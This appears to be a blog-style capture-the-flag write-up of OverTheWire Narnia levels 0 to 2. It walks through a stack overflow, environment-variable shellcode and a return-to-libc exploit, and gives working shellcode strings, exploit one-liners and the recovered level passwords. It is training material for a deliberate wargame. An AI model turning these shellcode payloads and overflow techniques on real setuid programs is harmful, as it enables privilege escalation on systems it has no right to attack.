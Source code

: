## OverTheWire: Narnia
After the frusration and lack of success in the Oman Quals CTF, I've decided to redirect my attention to some of the OverTheWire challenges. I've already completed both the Bandit and Leviathon series of challenges, but will not be doing write-ups on those due to the amount of resources already out there.

### Narnia0
After logging in with the username and password `narnia0` and reading the Welcome banner. It is discovered that the passwords for each level are stored in /etc/narnia_pass/narniaX and the programs to be exploited are in /narnia/ (as well as the source code for said programs).

After looking at the code for narnia0.c, we can see that we need the 'val' variable to be equal to 0xdeadbeef which can be done with a buffer overflow since the 'buf' variable that is read-in from user input is just before the val variable on the stack. Also, because the executable narnia0 has the setuid bit set (s in the owner execute spot in a long listing) the shell that is run in the program will have the privileges of the owner, i.e. narnia1, and allow us to view that users password file.

```
int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

By entering `(python -c 'print "A"*20 + "\xef\xbe\xad\xde"*10')` and piping it into the file we don't get the "WAY OFF!!!!" that we normally would but we also don't get the shell that we expect. So we know it works (kind of) but why are we using those commands. Well '-c' is used to tell python that the following information will be command-line input. Then the 20 A's are used to take up the space in the 'buf' variable and finally we have the 0xdeadbeef in reverse byte-order to account for how the bytes are stored in memory (most PCs are little-endian, i.e. the byte with the littlest value is stored first, this can be checked with the command `lscpu | grep "Byte Order"`).

Now we just have to add something to leave the input open after our code is run (after some research, I found the best way to do this was via the `cat` command).

So the full series of commands is as follows:
```
narnia0@narnia:~$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ▒
val: 0xdeadbeef
whoami
narnia1
```
And we can use this to find our flag:
```
cat /etc/narnia_pass/narnia1
efeidiedae
```

### Narnia1
At first, I thought this one would be easier than the previous challenge. As you can see from the code below, the program attempts to execute code located at the EGG environment variable. Environment Variables are globally accessable variablesfor sharing information between different applications and processes (they can be viewed by entering the `env` command). Since this program runs as Narnia2 (it has a higher privilege as in the last challenge), we want to get the program to open a shell so we can view the Narnia2 password.

```
int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

I initially attempted to simply set $EGG to '/bin/sh' (the $ symbol is used when accessing a global variable). I ran the program and got: `Trying to execute EGG! Segmentation fault`, so that didn't work. It's just displaying the string instead of executing the code and opening the shell. What we need is shellcode!

Shellcode is made up of commands used as the payload for exploitation, named so because of its ability to open a command shell. My first attempt was using the shellcode from **Hacking: The Art of Exploitation** but this attempt didn't work either. After some research, I discovered that my problem was due to the fact that shellcode must be tailored to the machine it is running on. To check our target system, we enter `lscpu`. From here we discover the following:
```
Architecture:          x86_64
CPU op-mode(s):        32-bit, 64-bit
Byte Order:            Little Endian
CPU(s):                2
On-line CPU(s) list:   0,1
Thread(s) per core:    1
Core(s) per socket:    2
Socket(s):             1
Vendor ID:             GenuineIntel
CPU family:            15
Model:                 6
Model name:            Common KVM processor
Stepping:              1
CPU MHz:               3074.244
BogoMIPS:              6148.48
Hypervisor vendor:     KVM
Virtualization type:   full
L1d cache:             32K
L1i cache:             32K
L2 cache:              4096K
L3 cache:              16384K
```

We can see that our target computer is being run on a Virtual Machine, is 64-bit, and has an Intel processor (and we already know it's running Linux due to it's file system). So after searching for Linux x86_64 shellcode, I found some and placed it in the EGG variable.
```
narnia1@narnia:~$ export EGG=$(echo -en "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
narnia1@narnia:~$ echo $EGG
1▒H▒ѝ▒▒Ќ▒▒H▒▒ST_▒RWT^▒;
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Segmentation fault
```
That didn't work, so I tried with some different shellcode, and then I tried again, and again, and again...
```
narnia1@narnia:~$ export EGG=$(echo -en "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Illegal instruction
narnia1@narnia:~$ export EGG=$(echo -en "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
Segmentation fault
narnia1@narnia:~$ export EGG=$(echo -en "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
narnia1@narnia:~$ export EGG=$(echo -en "\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a\x89\x46\x0e\xb0\x0b\x89\xf3\x8d\x4e\x0a\x8d\x56\x0e\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43")
narnia1@narnia:~$ /narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
```
...until I finally got it. Whew! That took a lot longer than expected.

I hope this helped to explain some basic computer exploitation principles in regards to environment variables. As for shellcode, I'll do some reading up on that and provide some better explanations in the future.

### Narnia2
First off, I would like to thank [Connor Hamlet](htp://github.com/cphamlet) for his help in crafting this exploit.

Taking a look at the code, we can see that the program is vulnerable to a stack buffer overflow (i.e. we can fill up the buffer to overwrite information on the stack).
```
int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```
Since I really did a return-to-libc exploit as part of my Masters, I decided to go with that approach. So after testing how to overwrite the instruction pointer (EIP), we found 132 was the amount of byes we needed to fill to get where we needed. After loading up the program in **GDB**, we found the address of the system command by using `print system` (it was 0xf7e4c850). Next we used the find command to locate the string `/bin/sh` in libc by entering `find &system, +999999, "/bin/sh"`. The only pattern found was at 0xf7f6ecc8. We used this information to craft the exploit below. __Note: We use the address 0xf7e11010 as useless information to overflow the return address and get to function input where we put "/bin/sh"__

```
narnia2@narnia:~$ /narnia/narnia2 $(python -c 'print "A"*132+"\x50\xc8\xe4\xf7\x10\x10\xe1\xf7\xc8\xec\xf6\xf7"')
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
vaequeezee
```
For more information on return-to-libc, check out this [this article](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf) from exploit-db.

### Narnia3
TBD
